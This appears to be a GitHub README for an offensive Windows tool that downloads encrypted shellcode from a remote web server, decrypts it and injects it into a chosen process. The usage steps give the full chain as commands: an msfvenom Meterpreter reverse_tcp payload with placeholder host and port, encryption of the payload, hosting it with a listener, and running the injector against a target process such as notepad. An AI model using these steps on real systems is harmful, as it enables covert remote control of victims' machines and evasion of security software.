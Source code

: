 # ShellCode-Injection
  
    Download and decrypt a shellcode from a remote webserver, then inject it to a given process name

# Usage
  
   1. Generate the shellcode

          msfvenom -p windows/x64/meterpreter/reverse_tcp --smallest exitfunc=thread lhost=x.x.x.x lport=xxxx -f raw -o shellcode.bin
   
   2. Encrypt the shellcode

          .\ShellCode_Encryptor.exe shellcode.bin

   3. Host the encrypted shellcode and start the listener

   4. Execute

          .\ShellCode_Injection.exe <shellcode_Url> <process_name eg. notepad> 
